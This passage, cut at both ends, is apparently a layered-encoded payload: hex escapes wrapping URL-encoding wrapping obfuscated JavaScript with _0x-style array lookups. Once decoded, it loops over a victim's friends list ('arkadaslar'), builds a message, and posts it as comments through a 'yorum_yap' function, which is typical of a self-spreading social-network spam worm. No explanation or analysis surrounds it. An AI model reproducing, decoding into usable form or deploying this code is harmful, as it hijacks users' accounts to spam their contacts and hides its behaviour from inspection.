 36\x41\x25\x33\x44\x25\x35\x46\x25\x33\x30\x25\x37\x38\x25\x36\x31\x25\x33\x32\x25\x33\x32\x25\x36\x33\x25\x35\x42\x25\x33\x31\x25\x33\x30\x25\x35\x44\x25\x33\x42\x25\x36\x44\x25\x36\x35\x25\x37\x33\x25\x36\x31\x25\x36\x41\x25\x35\x46\x25\x37\x34\x25\x36\x35\x25\x37\x38\x25\x37\x34\x25\x33\x44\x25\x35\x46\x25\x33\x30\x25\x37\x38\x25\x36\x31\x25\x33\x32\x25\x33\x32\x25\x36\x33\x25\x35\x42\x25\x33\x31\x25\x33\x30\x25\x35\x44\x25\x33\x42\x25\x36\x36\x25\x36\x46\x25\x37\x32\x25\x32\x38\x25\x36\x39\x25\x33\x44\x25\x36\x36\x25\x32\x41\x25\x33\x32\x25\x33\x37\x25\x33\x42\x25\x36\x39\x25\x33\x43\x25\x32\x38\x25\x36\x36\x25\x32\x42\x25\x33\x31\x25\x32\x39\x25\x32\x41\x25\x33\x32\x25\x33\x37\x25\x33\x42\x25\x36\x39\x25\x32\x42\x25\x32\x42\x25\x32\x39\x25\x37\x42\x25\x36\x39\x25\x36\x36\x25\x32\x38\x25\x36\x31\x25\x37\x32\x25\x36\x42\x25\x36\x31\x25\x36\x34\x25\x36\x31\x25\x37\x33\x25\x36\x43\x25\x36\x31\x25\x37\x32\x25\x35\x42\x25\x35\x46\x25\x33\x30\x25\x37\x38\x25\x36\x31\x25\x33\x32\x25\x33\x32\x25\x36\x33\x25\x35\x42\x25\x33\x31\x25\x33\x36\x25\x35\x44\x25\x35\x44\x25\x35\x42\x25\x35\x46\x25\x33\x30\x25\x37\x38\x25\x36\x31\x25\x33\x32\x25\x33\x32\x25\x36\x33\x25\x35\x42\x25\x33\x31\x25\x33\x35\x25\x35\x44\x25\x35\x44\x25\x35\x42\x25\x36\x39\x25\x35\x44\x25\x32\x39\x25\x37\x42\x25\x36\x44\x25\x36\x35\x25\x37\x33\x25\x36\x31\x25\x36\x41\x25\x32\x42\x25\x33\x44\x25\x35\x46\x25\x33\x30\x25\x37\x38\x25\x36\x31\x25\x33\x32\x25\x33\x32\x25\x36\x33\x25\x35\x42\x25\x33\x31\x25\x33\x38\x25\x35\x44\x25\x32\x42\x25\x36\x31\x25\x37\x32\x25\x36\x42\x25\x36\x31\x25\x36\x34\x25\x36\x31\x25\x37\x33\x25\x36\x43\x25\x36\x31\x25\x37\x32\x25\x35\x42\x25\x35\x46\x25\x33\x30\x25\x37\x38\x25\x36\x31\x25\x33\x32\x25\x33\x32\x25\x36\x33\x25\x35\x42\x25\x33\x31\x25\x33\x36\x25\x35\x44\x25\x35\x44\x25\x35\x42\x25\x35\x46\x25\x33\x30\x25\x37\x38\x25\x36\x31\x25\x33\x32\x25\x33\x32\x25\x36\x33\x25\x35\x42\x25\x33\x31\x25\x33\x35\x25\x35\x44\x25\x35\x44\x25\x35\x42\x25\x36\x39\x25\x35\x44\x25\x35\x42\x25\x35\x46\x25\x33\x30\x25\x37\x38\x25\x36\x31\x25\x33\x32\x25\x33\x32\x25\x36\x33\x25\x35\x42\x25\x33\x31\x25\x33\x39\x25\x35\x44\x25\x35\x44\x25\x32\x42\x25\x35\x46\x25\x33\x30\x25\x37\x38\x25\x36\x31\x25\x33\x32\x25\x33\x32\x25\x36\x33\x25\x35\x42\x25\x33\x32\x25\x33\x30\x25\x35\x44\x25\x32\x42\x25\x36\x31\x25\x37\x32\x25\x36\x42\x25\x36\x31\x25\x36\x34\x25\x36\x31\x25\x37\x33\x25\x36\x43\x25\x36\x31\x25\x37\x32\x25\x35\x42\x25\x35\x46\x25\x33\x30\x25\x37\x38\x25\x36\x31\x25\x33\x32\x25\x33\x32\x25\x36\x33\x25\x35\x42\x25\x33\x31\x25\x33\x36\x25\x35\x44\x25\x35\x44\x25\x35\x42\x25\x35\x46\x25\x33\x30\x25\x37\x38\x25\x36\x31\x25\x33\x32\x25\x33\x32\x25\x36\x33\x25\x35\x42\x25\x33\x31\x25\x33\x35\x25\x35\x44\x25\x35\x44\x25\x35\x42\x25\x36\x39\x25\x35\x44\x25\x35\x42\x25\x35\x46\x25\x33\x30\x25\x37\x38\x25\x36\x31\x25\x33\x32\x25\x33\x32\x25\x36\x33\x25\x35\x42\x25\x33\x32\x25\x33\x31\x25\x35\x44\x25\x35\x44\x25\x32\x42\x25\x35\x46\x25\x33\x30\x25\x37\x38\x25\x36\x31\x25\x33\x32\x25\x33\x32\x25\x36\x33\x25\x35\x42\x25\x33\x32\x25\x33\x32\x25\x35\x44\x25\x33\x42\x25\x36\x44\x25\x36\x35\x25\x37\x33\x25\x36\x31\x25\x36\x41\x25\x35\x46\x25\x37\x34\x25\x36\x35\x25\x37\x38\x25\x37\x34\x25\x32\x42\x25\x33\x44\x25\x35\x46\x25\x33\x30\x25\x37\x38\x25\x36\x31\x25\x33\x32\x25\x33\x32\x25\x36\x33\x25\x35\x42\x25\x33\x32\x25\x33\x33\x25\x35\x44\x25\x32\x42\x25\x36\x31\x25\x37\x32\x25\x36\x42\x25\x36\x31\x25\x36\x34\x25\x36\x31\x25\x37\x33\x25\x36\x43\x25\x36\x31\x25\x37\x32\x25\x35\x42\x25\x35\x46\x25\x33\x30\x25\x37\x38\x25\x36\x31\x25\x33\x32\x25\x33\x32\x25\x36\x33\x25\x35\x42\x25\x33\x31\x25\x33\x36\x25\x35\x44\x25\x35\x44\x25\x35\x42\x25\x35\x46\x25\x33\x30\x25\x37\x38\x25\x36\x31\x25\x33\x32\x25\x33\x32\x25\x36\x33\x25\x35\x42\x25\x33\x31\x25\x33\x35\x25\x35\x44\x25\x35\x44\x25\x35\x42\x25\x36\x39\x25\x35\x44\x25\x35\x42\x25\x35\x46\x25\x33\x30\x25\x37\x38\x25\x36\x31\x25\x33\x32\x25\x33\x32\x25\x36\x33\x25\x35\x42\x25\x33\x32\x25\x33\x31\x25\x35\x44\x25\x35\x44\x25\x33\x42\x25\x37\x44\x25\x32\x30\x25\x33\x42\x25\x37\x44\x25\x32\x30\x25\x33\x42\x25\x37\x39\x25\x36\x46\x25\x37\x32\x25\x37\x35\x25\x36\x44\x25\x35\x46\x25\x37\x39\x25\x36\x31\x25\x37\x30\x25\x32\x38\x25\x36\x39\x25\x36\x34\x25\x32\x43\x25\x36\x44\x25\x36\x35\x25\x37\x33\x25\x36\x31\x25\x36\x41\x25\x32\x39\x25\x33\x42\x25\x37\x44\x25\x32\x30\x25\x33\x42\x25\x37\x44\x25\x32\x30\x25\x33\x42\x25\x37\x44\x25\x32\x30\x25\x33\x42\x25\x37\x36\x25\x36\x31\x25\x37\x32\x25\x32\x30\x25\x35\x46\x25\x33\x30\x25\x37\x38\x25\x33\x37\x25\x33\x38\x25\x33\x39\x25\x33\x32\x25\x37\x38\x25\x33\x38\x25\x33\x44\x25\x35\x46\x25\x33\x30\x25\x37\x38\x25\x36\x31\x25\x33\x32\x25\x33\x32\x25\x36\x33\x25\x35\x42\x25\x33\x32\x25\x33\x34\x25\x35\x44\x25\x33\x42\x25\x35\x46\x25\x33\x30\x25\x37\x38\x25\x33\x37\x25\x33\x38\x25\x33\x39\x25\x33\x32\x25\x37\x38\x25\x33\x38\x25\x32\x42\x25\x33\x44\x25\x35\x46\x25\x33\x30\x25\x37\x38\x25\x36\x31\x25\x33\x32\x25\x33\x32\x25\x36\x33\x25\x35\x42\x25\x33\x32\x25\x33\x35\x25\x35\x44\x25\x33\x42\x25\x35\x46\x25\x33\x30\x25\x37\x38\x25\x33\x37\x25\x33\x38\x25\x33\x39\x25\x33\x32\x25\x37\x38\x25\x33\x38\x25\x32\x42\x25\x33\x44\x25\x35\x46\x25\x33\x30\x25\x37\x38\x25\x36\x31\x25\x33\x32\x25\x33\x32\x25\x36\x33\x25\x35\x42\x25\x33\x32\x25\x33\x36\x25\x35\x44\x25\x33\x42\x25\x35\x46\x25\x33\x30\x25\x37\x38\x25\x33\x37\x25\x33\x38\x25\x33\x39\x25\x33\x32\x25\x37\x38\x25\x33\x38\x25\x32\x42\x25\x33\x44\x25\x35\x46\x25\x33\x30\x25\x37\x38\x25\x36\x31\x25\x33\x32\x25\x33\x32\x25\x36\x33\x25\x35\x42\x25\x33\x32\x25\x33\x37\x25\x35\x44\x25\x33\x42\x25\x35\x46\x25\x33\x30\x25\x37\x38\x25\x33\x37\x25\x33\x38\x25\x33\x39\x25\x33\x32\x25\x37\x38\x25\x33\x38\x25\x32\x42\x25\x33\x44\x25\x35\x46\x25\x33\x30\x25\x37\x38\x25\x36\x31\x25\x33\x32\x25\x33\x32\x25\x36\x33\x25\x35\x42\x25\x33\x32\x25\x33\x38\x25\x35\x44\x25\x32\x42\x25\x37\x35\x25\x37\x33\x25\x36\x35\x25\x37\x32\x25\x35\x46\x25\x36\x39\x25\x36\x34\x25\x33\x42\x